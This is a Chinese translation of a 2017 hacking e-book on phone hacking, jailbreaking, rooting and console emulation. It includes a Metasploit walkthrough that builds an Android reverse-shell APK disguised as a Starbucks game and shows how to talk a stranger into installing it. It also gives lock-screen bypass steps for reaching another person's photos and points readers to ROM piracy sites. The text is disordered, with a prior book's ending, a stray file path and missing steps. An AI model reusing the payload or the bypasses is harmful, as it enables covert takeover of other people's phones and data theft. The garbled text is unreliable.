黑客必须通过实践和学习来培养技能。要获得技能，你必须学习网络基础、安全概念、编程语言、密码学等。耐力和坚韧将把最聪明的人塑造为卓越的黑客，因此终身学习应该是任何黑客的追求。你的旅程将在充满希望和承诺中继续。

再次感谢下载本书！

希望这本书能够帮助你理解一些围绕安全、黑客和反黑客的核心概念。该主题的范围如此巨大，这本书永远无法涵盖所有内容。尽管在书中各个主题上花费的时间很短，但我鼓励你进一步研究。

记住，安全和黑客技术在今天比以往任何时候都重要。这本书鼓励好奇的心灵激发灵感去遵循“黑客宣言”，除了好奇心之外，不犯下任何犯罪。本书不鼓励非法活动，它鼓励探索和娱乐。

最后，如果你喜欢这本书，请花时间分享你的想法并在 Amazon 上发表评论。我将不胜感激！

感谢并祝你好运！

## 黑客大学：大二版

将你的黑客技能提升到新水平必备指南。破解移动设备、平板电脑、游戏机和应用程序。（解锁你的 Android 和 iPhone 设备）

## 系列：破解自由与数据驱动卷 2 

作者：Isaac D. Cody



版权所有 2017，Isaac D. Cody - 版权所有。

本文档旨在就其涵盖的主题和问题提供准确且可靠的信息。本书的销售基于以下理念：出版者并不要求提供会计、官方许可或其他形式的资深合规服务。如果需要法律或专业建议，应聘请该领域具有经验的专业人士。

- 摘自一份由美国律师协会委员会和出版商及相关协会委员会共同接受并批准的《原则宣言》。

以任何电子手段或打印格式复制、复制或传输本文档的任何部分都是不合法的。严禁录制本出版物，未经出版者书面许可，不允许对本文档进行任何存储。保留所有权利。

此处提供的信息声明是真实且一致的，这意味着对于任何因疏忽或其他原因，对书中包含的任何政策、流程或指示的任何使用或滥用而产生的责任，完全由接收读者自行承担。在任何情况下，出版者对因本文中的信息直接或间接导致的任何赔偿、损害或金钱损失不承担任何法律责任或过。

各作者拥有出版者未持有的版权。

此处的信息仅供参考之用，且具有通用性。信息的呈现不带有任何合同或任何形式的保证说明。

所使用的商标均未经任何许可，且商标的发布未经商标所有者的许可或背书。书中的所有商标和品牌仅用于说明目的，由其所有者所有，与本文无关联。

## 免责声明

保留所有权利。未经出版者事先书面许可，不得以任何形式或通过任何手段复制、分发或传输本出版物的任何部分，包括复印、录制或其他电子或机械方法，但评述性评论中包含的简短引用以及版权法允许的某些非商业用途除外。

# 目录

- 引言

- 手机破解的历史

- 移动设备的安全漏洞

- 从运营商处解锁设备

- 保护你的设备

- 修改、越狱与 Root 化

- iOS 越狱

- Android Root 化

- 手机破解与修改的风险

- 破解视频游戏机

    - NES

    - PlayStation

    - PS2

    - PS3

    - Xbox

    - Xbox 360

- 砖了设备该怎么办

- PC 模拟器

- 结论

## 引言

感谢下载《黑客大学：大二版》这本书。如果你正在阅读这本书，要么你已经完成了《黑客大学：大一版》，要么你认为自己已经具备开始第 2 级所需的破解技能。这本电子书是通过各种练习和学习建立你破解技能的终极指南。

正如在前一书中解释的，破解并不是一种恶意活动。破解是探索我们周围的技术，并在过程中寻找乐趣。本书的演示将主要关注“解锁”或“越狱”各种设备，这在任何情况下都不违法。然而，对软件和硬件进行非预期的服务或更改可能会导致你拥有的任何保修失效。请自担风险，我们对你造成的损害不承担责任。但是，如果你想对拥有的手机和游戏机获得真正的控制权，请继续阅读查看顶级黑客如何运用他们的技艺。

## 手机破解的历史

手机破解也称为 Phreaking（电话破解），它有一个独特的历史，可以追溯到 20 世纪 50 代。第一本书详细讨论了 Phreaking，因此在这里仅简要回顾。在电话公司从人工接线员变为自动交换机后，一群专门的实验“电话破解者”发现了可以“破解”交换机的精确频率和音调。这种行为变成了一种个人爱好和文化，这些人可以免费拨打长途电话或窃听电话线路。当固电话变得复杂而手机取代一切时，Phreaking 消失了并被计算机破解所取代。

第一批手机黑客简单地猜测语音信箱的密码，因为手机用户很少更改默认 PIN 码。使用像“0000”或“1234”这样简单的数字作为密码，黑客可以轻松地访问语音信箱并收听任何信息。

另一种被称为[欺骗](http://www.spooftel.com/freecall/) 的技术允许攻击者更改来电 ID 上显示的号码。通过冒充另一个号码，可以使用各种具有社会工程可能性的各种攻击策略。

随着翻盖手机的出现，移动设备变得更小、更高效。虽然一些专门的黑客可以在被盗的手机上刷入新的 ROM，或使用复杂的设备读取短信，但早期的手机并没有太多敏感数据可以窃取。直到手机变得更加先进并与我们的在线生活永久联系在一起，手机破解才成为一个利润丰厚的领域。


随着 2000 年代初的黑色手机和 2000 年代后期的 `iPhone` 将移动技术提升到与个人电脑相当，我们的更多信息可以从口袋中获取。安全往往为了自由和易用性而被牺牲，因此黑客能够相当容易地利用移动技术的弱点。

黑客是如何进入我们口袋里的微型电脑的？主要通过与黑客用来破解普通桌面 `PC` 相同的技术——软件漏洞、缺陷、社会工程学和密码攻击。

大多数手机破解都是低级故事，关于名人的私人照片被盗或情情信息泄露。通常这些攻击和破解的发生是因为名人的技术无知以及他们欠佳的安全习惯。然而，每隔一段时间，聚光灯会关注一些重大事件，例如希拉里·克林顿的电子邮件服务器泄露，或者爱德华·斯诺登披露的机密政府信息。这些事件说明了安全在数字生活的各个方面是多么关重要，一个人的手机不应该是导致他们遭受黑客攻击的设备。

最近新闻中讨论得最广泛的手机破解事件可能是 2015 年的圣贝纳迪诺恐怖袭击及其后续调查。在这场加利福尼亚州的小镇袭击导致 16 人死亡、24 人受伤后，两名袭击者在事后丧生，调查部门开始对他们的背景进行调查。其中一名枪手 `Farook` 拥有一部县政府发的 `iPhone 5C`，调查人员认为该手机可能包含有关袭击的额外证据。此外，获取该设备意味着 `FBI` 可以调查手机进出的任何通信内容，可能揭示任何活跃的恐怖组织或影响因素。

然而，这台 `iPhone` 设置了密码保护，并更新了 `iOS` 的高级安全功能，这确保了政府无法访问手机内容。`NSA`、`FBI` 和其他政府小组无法破解这种保护，因此他们要求 `Apple` 在 `iOS` 中提供一个后门，供 `FBI` 访问数据。`Apple` 拒绝了请求，并表示这种后门将为黑客、病毒和恶意软件提供一个无差别攻击所有 `iOS` 设备的向量。

`FBI` 与 `Apple` 之间的紧张局势不断升级，但 `Apple` 坚持立场足够长，让政府去他处寻求帮助。最终在 2016 年 3 月 28 日，这台手机被一个第三方黑客小组花费百万美元破解了。该小组如何成功破解这种“不可破解”的防御尚不为人知，但据信使用了一个零日漏洞（无人知的漏洞）来获取对 `iOS` 的访问权限。

整个场景表明，政府并不高于民用隐私——他们会利用手中一切资源来获取访问我们设备的权限。虽然大多数人认为出于国家安全考虑需要解锁手机，但事实仍然是，如果 `Apple` 顺从政府的要求，那么像 `NSA` 和 `FBI` 这样的组织将直接连接所有 `iOS` 设备及其数据（这是对信任的明显背叛）。手机安全在未来几年将继续是一个热点，因此通过研究黑客的思维来学习如何保护自己，从远来看将让你受益。

## 移动设备安全漏洞

手机和笔记本电脑等移动设备特别受到常见 `IT` 问题的影响。然而，这些方便设备的便携性放大了攻击向量的多样性。`Wi-Fi` 热点通常存在于咖啡馆、公共餐厅和图书馆。免费且开放的 `Wi-Fi` 总是很有帮助，但它们会让移动设备暴露于数据拦截和“中间人”攻击之中。

例如，假设一个黑客创建了一个公共 `Wi-Fi` 点。通过将其命名为“星巴克免费 `Wi-Fi`”等不不起眼的名称，人们一定会用手机和笔记本电脑连接。此时，黑客已经安装了 `Kali Linux`（更多信息请参阅“新生版”）并连接到了受侵害的互联网。他们运行数据包捕获程序，在受害者毫无察觉的情况下实时窃取在线银行信息。具有安全意识的人应该始终记住，开放的 `Wi-Fi` 热点是危险的，应该只在进行简单浏览或运行 `VPN` 时才连接。

社交工程学在手机破解中也扮演着很大作用。手机用户通常忘记手机也会像 `PC` 一样感染病毒和恶意软件，因此用户在手机上浏览时往往掉以防备，并意点击链接和下载木马。下面的演示（感谢 `http://wonderhowto.com`）利用了同一网络上的 `Android` 设备（我们在星巴克），并将控制权交给了黑客。

1. 启动一台安装了 `Kali Linux` 和 `metasploit` 应用程序笔记本电脑。
2. 在终端中使用 `ifconfig` 找到你的 `IP` 地址。
3. 输入此命令- `msfpayload android/meterpreter/reverse_tcp LHOST=(your IP) LPORT=8080 R > ~/Desktop/starbucksgames.apk`，这将在桌面上创建一个包含利用程序的应用程序。
4. 输入 `msfconsole` 启动 `metasploit` 控制台。
5. 在新控制台中，输入 `use exploit/multi/handler`。
6. 然后输入 `set payload android/meterpreter/reverse_tcp`。
7. `set lhost (Your IP)`。
8. `set lport 8080`。
9. 现在你需要将利用程序交付给受害者。你可以走过去问他们：“嘿，你试过星巴克的 `Android` 免费游戏应用吗？挺好玩的”。在他们许可的情况下，你可以通过邮件将应用程序发送给他们。当他们在手机上下载并启动它时，回到你的笔记本电脑并在 `metasploit` 控制台中输入 `exploit`。两个设备将进行通信，你将获得手机部分的控制权。

学到的教训是，永远不要安装任何看起来奇怪或来自不可靠来源的程序。在书的后面，特别是谈到越狱和 `Root` 设备时，我们将安装许多“未经验证”的应用程序。最终，没有真实的方法可以知道我们安装的是正版应用还是像那样的木马。对于非官方应用程序，你必须相信自己的安全直觉，仅从可靠的来源安装。

## Heartbleed

`Heartbleed` 是 2014 年著名的 `OpenSSL` 漏洞，影响了 50 万台 `Web` 服务器，还影响了近 500 万台 `Android` 设备。该漏洞允许黑客通过溢出 `TLS` 加密缓冲区读取存储在内存中的数据，如密码、加密密钥和用户名。其影响如此巨大，遍的设备都需要紧急补丁来保护自己。`OpenSSL` 尽快解决了该漏洞，`Android` 厂商也发布了修复该问题的更新。

## QuadRooter

`QuadRooter` 是 `Android` 设备 芯片组中发现的一种新型漏洞。通过伪装的恶意应用程序，黑客可以在无需请求的情况下获得所有设备权限。目前估计有 9 亿台 `Android` 设备存在漏洞，且在写作时，并非所有运营商都发布了补丁来解决此问题。防止 `QuadRooter` 攻击的方法是在补丁发布后立即更新，并避免安装可疑应用程序。

## iOS 漏洞

不仅是 `Android` 受到黑客的影响，运行低于 9.3.1 版本的 `iPhone 6` 和 `6S` 即使开启了密码或指纹，其照片也可能被翻看。以下是过程。跟着查看你的手机是否存在漏洞。

1. 按住 `Home` 键启动 `Siri`。
2. 说“Search twitter”。
3. `Siri` 会询问搜索什么，回答“`@yahoo.com`”、“`@att.net`”、“`@gmail.com`”或任何其他邮箱后缀。
4. `Siri` 将显示相关结果，因此从中找到一个完整的邮箱地址。用力按住地址（`3D Touch`），然后点击“添加新联系人”。
5. 此时，通过向我们的新“联系人”“添加照片”，我们就可以访问整个照片库。

这让人想起早前的一个 `iOS9` 漏洞，可以在没有密码的情况下完全解锁手机。你可以在未更新的 `iOS9` 上进行这种破解。

1. 按住 `Home` 键启动 `Siri`。
2. 说“remind me”。
3. 说任何内容。
4. 点击 `Siri` 创建的提醒事项。
5. 启动提醒事项，长按你刚刚创建的那个，并点击“分享”。
6. 点击信息应用。
7. 输入任何名称，然后点击该名称创建一个新联系人。
8. 点击“选择照片”，然后你可以在解锁锁屏状态下按 `Home` 键回到主屏幕。

上述提到的两个大多数漏洞在被发现后几乎就会被修补，这就是为什么它们在已更新的 `iOS9` 上无效。

最后，如果黑客拥有手机的实体，他们还有最后一个战术可以用来入侵手机。如果黑客真的想要获取移动设备的访问，他们可以以删除所有数据的代价来实现。通过出厂重置，黑客将擦除设备上的所有内容，包括密码和加密，但他们将可以使用该设备或将其卖给别人。

在 `iPhone` 上，你可以按照以下步骤进行出厂重置：

1. 关闭手机，通过 `iTunes` 将其连接到电脑，并将 `iPhone` 进入恢复模式（同时按住电源键和主屏幕键，直到显示恢复模式）。
2. 在 `iTunes` 中，点击弹出的“恢复”按钮以删除所有数据，并将手机归你个人所有。

每台 `Android` 设备进入恢复模式的按键组合都不同，因此请研究你的手机型号。我们将演示如何使用最常用的组合对 `Android` 手机进行出厂重置。

1. 关闭手机并将其启动恢复模式。同时按住电源键和音量减键是一种常用组合。
2. 使用物理按钮（有时是音量加和减键）导航菜单。选择“出厂重置”并确认。

## 从运营商处解锁设备

手机和其他移动设备通常被“锁定”在特定的运营商，这意味着设备无法使用任何其他公司的蜂窝网络。锁定的手机实际上被运营商“质质”——除非你完成解锁流程。运营商可以帮助你完成这一过程，但你通常需要一个合理的理由来解锁设备（例如前往没有覆盖的地区、军事部署、合同已到且你正在切换运营商）。被盗的设备无法解锁。你在 `eBay` 上找到的最便宜的手机有时是盗品，如果运营商将该设备记录为丢失或被盗，他们可能会拒绝解锁。

注意的是，手机运行在网络（`GSM` 和 `CDMA`）上，这些网络限制了手机可以运行的运营商数量——移动设备的网络无法完全更改，但运行相同网络上的运营商是可以更改的。

大多数解锁要求手机已全额付清、账户状态良好，且你一年内的解锁次数不能过多。该过程涉及收集有关手机的所有信息（手机号、`IMEI`、账户信息、账户持有者信息）、证明你拥有它，并通过电话或网络表单请求解锁。遗憾的是，某些运营商根本无法解锁。这里列出了最常用的移动运营商。

### 运营商解锁图表

| 运营商 | 网络 | 替代运营商 | 解锁方法 | 备注 |
| :--- | :--- | :--- | :--- | :--- |
| ATT | GSM | T-Mobile, Straight Talk, Net10 | 拨打 `1-800-331-0500` 或 [在线提交表单。](https://www.att.com/deviceunlock/?partner=LinkShare&siteId=TnL5HPStwNw-0w3siF60h.h45d7DZrjCbw#/) | 无 |
| Sprint (Virgin/Boost) | CMDA | Voyager, Sprint Prepaid | 拨打 `1-888-211-4727` 或参与[在线聊天。](http://sprintworldwide.custhelp.com/app/chat/chat_launch/?ECID=vanity:swwsupport) | 解锁 Sprint 手机极其困难，大多数设备根本无法解锁。 |
| T-Mobile | GSM | ATT, Straight Talk, Net10 | 拨打 `1-877-746-0909` 或参与[在线聊天。](https://support.t-mobile.com/community/contact-us) | 无 |
| Verizon | CDMA | 较新的机型可以在 `GSM` 上运行，其他的可以切换到 PagePlus | 拨打 `1-800-711-8300`。 | 某些 Verizon 手机实际上并没有锁定。 |

不同手机运行的网络实际上有所不同，因此你将进行一些研究以找出手机可以在哪些网络上运行。上述列出的网络是不同运营商设备上最常用的网络。解锁过程可能很困难，但也有专门的手机解锁商店可以为你完成该过程。

## 确保设备安全

如前所述，旧版本的操作系统保留了许多漏洞和利用程序。特别是手机，请务必尽快安装最新的更新。

圣贝纳迪诺手机之所以如此难以破解，原因之一是 `Apple` 在存在密码时会启用其内置加密。对于注重安全的 `iPhone` 所有者来说，这意味着设置密码可以确保获得极佳的保护。只要启用了密码，手机就会被加密。简单的破解手段无法提取已加密的数据，这就是为什么 `FBI` 必须付费获取替代性的利用程序。

读过上本书的读者会记得，加密是对数据进行混乱以防止访问。只有拥有正确密码的人才能解码这些乱码。就像桌面电脑一样，加密你的手机手机将保护它免受未经授权的访问。所有 `iPhone`（带有较新更新的）在启用密码时会自动加密。运行 `OS 6.0` 及以上的 `Android` 手机会自动加密，但运行旧操作系统的手机必须手动启用该功能（`settings`、`security`、`encrypt phone`）。加密后的手机运行速度较慢，但更安全。即使某些短信应用（如 `WhatsApp`）也可以加密发送的短信。

然而，如果黑客或机构获取了设备，仍然有一个技巧可以让对手占据优势。即使是带有密码和加密的手机，默认情况下锁屏上仍然会显示通知。例如，假设一个黑客拥有你的手机并尝试登录你的在线银行。尽管没有密码，攻击者仍然可以向手机发送验证码并在锁屏上看到它。通过完全禁用通知来消除锁屏问题。在 `iDevices` 上，进入 `settings`、`control center`，然后关闭 `Access to Lock Screen`。在 `Android` 上进入 `settings`、`sound and notifications`，然后将 `while locked` 设置为关闭。

假设移动设备上安装了一个应用，你怀疑它可能包含木马或有恶意意。该应用可能是从第三方安装的，或者你怀疑 `Facebook` 正在收集你的数据。幸运的是，在 `iPhone` 和 `Android` 上，你都可以关闭特定的应用权限，以限制应用访问的范围。就像当你安装应用时它会请求权限（例如麦克风、摄像头和联系人）一样，你可以随时撤销这些权限。

`Android` 手机在设置应用（`Marshmallow 6.0`）中编辑权限。`apps` 标签显示所有已安装的应用，通过点击右上角的设置按钮，你可以选择 `app permissions`。下一个屏幕显示 `Android` 的每个访问部分，如摄像头、联系人、`GPS` 等……你可以编辑每个类别并更改哪些应用有权限使用它们。

`iOS` 的应用权限方法被认为可能更好，因为它只在应用想要使用外设时才请求使用。注重安全的个人可以领会这一点：在异常时间请求权限显然意味着正在发生不法活动。尽管如此，仍然可以通过 `settings` 中的 `privacy` 标签撤销应用权限。与 `Android` 一样，点击类别会显示使用该功能的所有应用并提供撤销权限的选项。

移动设备仍然存在恶意软件和病毒。可以通过从信誉来源安装防病毒软件来保护手机和平板电脑。不过，某些攻击者喜欢将木马伪装成防病毒软件；请只下载声誉良好且评价高的应用。不要反对付费的防病毒软件，因为它们通常是效果最好的。

## 模组化、越狱和 Root

现代设备被锁定，运行专有软件，并且对定制化关闭。通过修改设备以获得额外功能的行为有许多不同的名称；在 `iPhone` 上，模组化过程通常被称为 `Jailbreaking`（越狱），在 `Android` 手机上被称为 `rooting`（获取 `Root`），在视频游戏机上，该行为被称为简单的 `modding`（模组化）。

黑客喜欢通过改装硬件来增加设备赋予他们的自由度。例如，`iPhone` 只有一种布局、图标集、一组铃声，且自定义设置非常少。`Android` 手机具有相当的自定义功能，但某些设置是固定的且无法更改的。`Root` 化（`Rooting`）提供了更多自定义选项，并允许应用与核心文件系统交互以实现独特的功能。人们通常通过 `Root` 和越狱（`Jailbreak`）来获取额外的应用和游戏。改装游戏机则允许它们运行完整的操作系统，甚至播放来自刻录光盘的备份游戏。下面我们将讨论几款流行设备改装的优点、缺点和功能。再次强调重要一点是：更改设备可能会导致保修失效。此外，改装有永久损坏硬件的小小风险（变砖）；这将导致设备无法使用。我们对任何损坏不承担责任，请在自担风险的情况下进行演示并谨慎操作。

## 越狱 iOS

由于苹果实施的有限自定义和严格的 `App Store` 准则，`iPhone` 可能是被“破解”频率最高的设备。尽管如此，有些群体喜欢 `iPhone` 在这方面的简单性，而精通技术的实验者更倾向于拥有完全控制权。如果有人越狱了他们的 `iPhone`，他们就可以访问通常被锁定且无法更改的微小细节。突然，他们可以更改图标上的图片、一行显示多少个图标、动画、锁屏界面布局等。此外，越狱后的 `iPhone` 不局限于“`Apple Store`”，还有其他免费的应用商店可以让越狱后的 `iPhone` 从中下载应用程序。这些新增和“被禁”应用带给你的功能范围绝对让越狱变得值得。

不过也存在一些限制，因为苹果正试图通过修补 `iOS` 来震慑越狱。要查看你的 `iDevice` 是否可以越狱，你需要知道正在运行哪个版本的 `iOS`。在`Settings`设置设置应用中，点击`General`通用，然后点击`About`关于。注意版本号并检查 `https://canijailbreak.com`，这是一个列出可越狱 `iOS` 版本的流行网站。每个版本的 `iOS` 都会有一个指向可以帮助越狱 `iDevice` 工具的链接。

“有线式”（`Tethered`）越狱是一种条件性越狱，需要你在电脑的帮助下启动 `iDevice`。如果在没有 `PC` 帮助的情况下启动有线越狱，可能会损坏你的手机；如果电池在出门时耗尽了，即使在充电后手机基本上也无法使用。这显然不是最佳解决方案，因此请考虑“有线式”越狱对你来说是否值得。不过，某些版本的 `iOS` 可以实现“无线式”（`untethered`），这在几乎所有情况下都是理想的。

在开始任何越狱之前，请备份你的手机数据，以防发生意外情况或你希望回到正常的、未越狱的手机。

## Pangu / Evasi0n

1. 将你需要的应用程序下载到电脑上。
2. 通过设置菜单禁用 `iDevice` 上的密码。
3. 开启飞行模式。
4. 关闭“查找我的 `iPhone`”。
5. 使用 `USB` 数据线将你的 `iDevice` 连接到电脑。
6. 在你正在使用的任何应用程序上点击`Start`按钮。
7. 遵循屏幕上的任何提示。你需要遵循应用程序给出的任何指令，包括在桌面电脑或 `iDevice` 上操作。
8. 你的 `iDevice` 将完成越狱。


每个 iDevice 可能可以越狱也可能不可以，但通常只要它们没有运行最新的 iOS 更新，大多数 iPhone 和 iPad 都可以被利用。但尝试越狱一个明确无法无法的设备可能会导致设备完全变砖。

越狱 iPhone 的好朋友是`Cydia`，一个“被破解”的应用商店。`Cydia`允许你添加仓库（repositories）并下载应用程序。仓库是一个包含应用程序和修改内容的下载存储。为了下载几个特定的应用，你必须将仓库添加到`Cydia`中。每个版本的`Cydia`默认仓库可能略有不同，以下过程是你检查已安装仓库并添加新仓库的方法：

1. 打开`Cydia`并导航到`Sources`标签页。
2. 屏幕上的列表是所有已安装的源。
3. 添加新源，点击`add`按钮。
4. 输入源并将其添加到列表。

仓库通常是 URL，你可以在很多地方找到。你可以在网上搜索“best Cydia repos”或只需找一个字母列表并搜索好的源。不过要小心添加过多的源，因为`Cydia`会尝试定期连接每个服务器并获取应用列表，这会减慢应用程序的速度。一些最好的源包括：

* BigBoss
* ModMyI
* iSpazio
* Telesphoreo Tangelo
* Ste
* ZodTTD

之前的源通常是默认的，但这里是你可能需要手动添加的一些：

* iHacksRepo (`http://ihacksrepo.com`)
* SiNful (`http://sinfuliphonerepo.com`)
* iF0rce (`http://apt.if0rce.com`)
* InsanelyiRepo (`http://repo.insanelyi.com`)
* BiteYourApple (`http://repo.biteyourapple.net`)

自定义 iOS 的图标和颜色可能是越狱后 iOS 最常用的功能。更改 iOS 部分内容的两个最佳应用是`Winterboard`和`Anemone`。在`Cydia`中搜索这两个应用并安装它们。现在你可以在仓库中搜索你想应用的主题。特别是`Winterboard`主题可以进行整个外观的改变，用新的颜色、内容和图标替换 iOS 的每一个部分。如果只需要一套新图标，只需搜索图标包即可。

改变 iOS 外观的应用具有美感，但它们经常会冲突并在操作系统中产生漏洞。某些主题和图标集可能会导致应用崩溃或导致手机偶尔重启。这是兼容性以及代码较差的新开发者带来的遗憾副作用，因此请根据自己的情况自行决定主题。

`Cydia`应用多到数不完，这里列出了几个流行的应用短列表以及你认为应该考虑下载它们的原因：

* `iCaughtU`在你的设备输入错误密码时拍摄快照。抓住偷窥者和小偷。
* `iFile`允许你实际上与 iDevice 上的文件进行交互。这是 Android 内置的功能，但在 iOS 中神秘地缺失。
* `T/Zephyr`是两个允许自定义多任务手势的应用。你可以让比如通过圆圈滑动来启动短信以节省时间。`T`是最新的应用，但旧设备可能需要运行`Zephyr`。
* `Activator`允许你通过三击 Home 键或按住音量等按钮启动应用或 iOS 功能。
* `TetherMe`在无需向运营商付费的情况下创建一个无线热点。

应用的可能性是无限的。你可以花费几个小时在`Cydia`中搜索寻找你最喜欢的调优和修改。再次警告，安装过多可能会让 iOS 缓慢并导致崩溃，因此请少量安装。

越狱的另一个益处来自于可以玩的游戏。虽然通过`Cydia`可以下载一些游戏“应用”，但对游戏玩家主要的吸引力无疑是模拟器。模拟器是模仿游戏主机的应用，以便它们的游戏可以在 iOS 上运行，通常是免费的。运行模拟游戏的过程有些困难，但下面将解释主要步骤。请注意，步骤将根据模拟器、游戏和设备而异。

1. 首先，我们需要下载一个模拟器。我们想玩索尼 Playstation 1 游戏，所以我们将从`Cydia`下载`RetroArch`。
2. 你的特定设备可能包含也未包含该源，因此请搜索“RetroArch”。如果没有显示，请添加源`http://buildbot.libretro.com/repo/cydia`或可能的`http://www.libretro.com/cydia`，重启应用并再次搜索。
3. 下载并安装`RetroArch`。
4. 启动应用，导航到“Online Updater”（在线更新器），并从底部开始更新每一个项目。
5. 当进入“Core Updater”（核心更新器）时，更新“Playstation (PCSX ReARMed) [Interpreter]”。`RetroArch`正在此处下载你将用于运行 PS1 游戏的实际模拟器。
6. 返回主菜单，选择“Load Core”（加载核心），然后选择我们刚刚下载的 Playstation 项目。

现在我们需要获取一个 ROM（游戏文件）。ROM 是我们所玩游戏的数字备份。将你的 PS1 游戏光盘插入电脑并使用如`PowerISO` (`http://poweriso.com`) 或`IMGBurn` (`http://www.imgburn.com`) 等工具制作`.iso`备份并不违法。基本上，你安装上述程序之一，启动它，将你的 PS1 光盘插入 CD 驱动器，然后用程序创建一个`.iso`文件。最后，通过 PC 程序如`iFunBox` (`http://www.i-funbox.com/`)，你可以将该`.iso`传输到你的 iOS 设备。

上述过程相当复杂，而且黑客通常想要模拟他们尚未拥有的游戏。聪明的黑客可以直接从互联网下载 ROM 到他们的 iOS 设备上，但此行为的合法性取决于国家和州。我们不赞许非法下载 ROM，但出于教育目的，必须解释这一过程。诸如`CoolROM` (`http://coolrom.com`)、`romhustler` (`http://romhustler.com`) 和`EmuParadise` (`http://emuparadise.me`) 等网站提供免费 PS1 rom 下载，好奇的个人可以在那里搜索几乎任何他们想要的 ROM 游戏。下载文件后，需要另一个应用（如`iFile`）将下载的 ROM 正确的文件夹中。从 Cydia 安装`iFile`，导航到浏览器下载文件的地方（根据浏览器而异，但可以尝试查看`var/mobile/containers/data/application`来找到浏览器的下载路径）。复制文件，然后导航到`/var/mobile/documents`并将其粘贴到那里。

最后，在漫长的结束后重启`RetroArch`，点击“Load Content”（加载内容），“Select File”（选择文件），然后点击游戏的`.iso`。你现在就可以玩游戏了。

iPhone 模拟非常困难。没有简单的方法下载 ROM 并将其放在需要的地方。在互联网上搜索 ROM 时也必须小心，因为许多网站仅仅是为了向毫无防备的下载者发送病毒。此外，iPhone 上的模拟器与 Android 相比很糟糕，因此上述过程对你来说可能并不适用。在这种情况下，考虑从 Cydia 下载另一个 PS1 模拟器。`RetroArch`也能运行其他几个系统，只需将上述 Playstation 的步骤替换为你选择的主机即可。但最终，如果你的游戏崩溃或无法启动，你也没什么能做。考虑研究 PC 模拟，因为在 Windows 上模拟旧主机游戏要容易得多。

总的来说，越狱 iOS 是一种很棒的客体验，为 iOS 设备提供了许多新选择。考虑越狱，但要注意这会导致保修失效。

## Android Root 设备（Rooting Android）

Android 手机的 Root 与越狱的过程大部分相同，但由于 Android 系统运行在许多不同的手机、平板电脑和微型电脑上，因此确定你的设备是否可以 Root 需要涉及大量的研究。通常，旧设备上市时间较长，因此通常是可以 Root 的，因为开发者和黑客已经有机会进一步利用这项技术。确定你的设备最初是否可以 Root 是极其关重要的，否则极有概率导致其变成“砖头”。我们将讨论的一种用于 Root 的工具是“Kingo Root”，目前你可以检查兼容性列表 (`http://www.kingoapp.com/android-root/devices.htm`) 来查看你的设备是否被特别提及。

### 为什么你可能想 Root Android 设备？

与越狱一样，Root 允许访问操作系统的细节。Play 商店中的某些应用需要 Root 过的手机，因为应用的部分内容与操作系统中的锁定设置进行交互。一些手机运营商还阻止了对 Android 功能的访问，黑客喜欢 Root 手机，以便自由地按照意图使用他们的设备。Android 设备上安装的默认应用占用了太多空间，而且通常会拖慢设备；Root 过的 Android 可以删除默认应用。最后，许多黑客对基于 Google 的操作系统及其收集的用户数据量感到沮丧，因此精通技术的 Root 用户可以“刷入”一个新的没有间谍软件和 Google 窥视的操作系统。

再次提醒，对你的设备进行备份，并准备好完全按照指示操作以防变砖。务必确保你可以 Root 你的特定设备。我们将遵循`KingoRoot` (`https://www.kingoapp.com/`) 的步骤，但请遵循你特定应用的程序操作。

1. 下载 PC 版`KingoRoot`，安装并运行该程序。
2. 通过 USB 线连接手机。
3. 点击“Root Button”（Root 按钮）。
4. 遵循屏幕或设备上的提示。你的手机可能会重启多次。

Root 之后，你现在可以做一些有趣的事情。首先，你可以删除那些随设备自带的讨厌且占用空间的臃肿软件。其次，你现在自由可以使用你喜欢的设备功能。例如，较新的 Galaxy 手机内置了 WiFi 热点，但某些运营商将其锁定在需要支付的月费之后。通过 Root 过的 Galaxy，你可以下载应用（Play 商店中的`Barnacle Tether`）来为你提供热点，而无需请求运营商。

Android Root 没有等同于“Cydia”，因为你可以从任何地方下载并安装`.apk`文件。只需在互联网上搜索 Android `.apk`文件，就能找到专门提供 Android 应用的网站 (`https://apkpure.com/region-free-apk-download`)。为了启用安装`.apk`文件，你对设备进行的唯一更改是进入“设置”，点击“安全”。勾选“允许安装来自未知来源的应用”。现在你可以下载并安装任何`.apk`，其中大多数应用可能不需要 Root 即可。

3. 最后，提取或下载你想要在设备上运行的 PS1 rom。请参阅关于 iOS 模拟的章节，获取有关如何提取你自己的 ROM 或在线获取其他备份的提示。

4. 通过将其指向你的 BIOS 文件来配置`ePSXe`。然后选择你的设备可以处理的图形设置。导航到 ROM 所在位置并启动它，即可开始享受 PS1 游戏。

在 Android 上玩游戏很有趣，但由于屏幕上的按钮会遮挡你的视野，可能会有些困难。Android 对于通过 USB 端口插入的有线 Xbox 控制器具有内置功能。如果你的 Android 设备具有全尺寸`USB`端口，你可以直接插入 Xbox 控制器它即可工作。如果你有一个带有`OTG`（较小）端口的手机，你需要购买一个`OTG`转`USB`母口适配器。对于已 root 的设备，可以充分利用蓝牙功能。“SixaxisPairTool”应用程序可以配对 PS3 控制器进行无线游戏。你只需要在手机上准备该应用、在电脑上准备 PC 版本程序、一个 PS3 控制器以及一根连接电脑的电缆。

1. 通过`USB`线将控制器连接到电脑上。
2. 在 PC 上启动`SixaxisPairTool`程序。
3. 在你的 Android 设备上，导航到“设置”、“关于手机”，然后点击“状态”。
4. 将手机上的“蓝牙地址”复制到 PC 应用程序上的“Current Master”框中。点击更新。
5. 拔掉 PS3 控制器并将其开启。它应该会搜索 PS3 进行同步，但预设的地址将引导它连接你的 Android 设备。享受无线游戏吧！

深度的 Android 自定义源于`Xposed Framework`。在安装（`http://repo.xposed.info/module/de.robv.android.xposed.installer`）后，你可以通过“模块”（`https://www.androidpit.com/best-xposed-framework-modules`）自由自定义设备，这些模块可以修改 Android 最细小的细节。正是这一功能让 Android 比 iOS 可定制性得多。

